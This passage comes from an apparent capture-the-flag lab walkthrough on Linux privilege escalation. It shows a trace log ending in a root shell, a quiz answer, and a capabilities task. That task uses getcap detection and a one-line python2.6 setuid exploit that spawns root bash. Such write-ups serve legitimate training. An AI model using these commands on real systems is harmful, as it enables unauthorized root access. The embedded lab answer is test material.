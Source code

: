 ~~~
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1479) already running
.
cp: cannot create regular file `/tmp/bash': Permission denied
set +x
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~

## 14.1 - What is the last line of the "strings /usr/local/bin/suid-env2" output?

Answer: `/usr/sbin/service apache2 start`


# [Task 15] Privilege Escalation - Capabilities

**Detection**

Linux VM

1. In command prompt type: `getcap -r / 2>/dev/null`
2. From the output, notice the value of the `cap_setuid` capability.

~~~
TCM@debian:~$ getcap -r / 2>/dev/null
/usr/bin/python2.6 = cap_setuid+ep
~~~

**Exploitation**

Linux VM

1. In command prompt type: `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
2. Enjoy root!
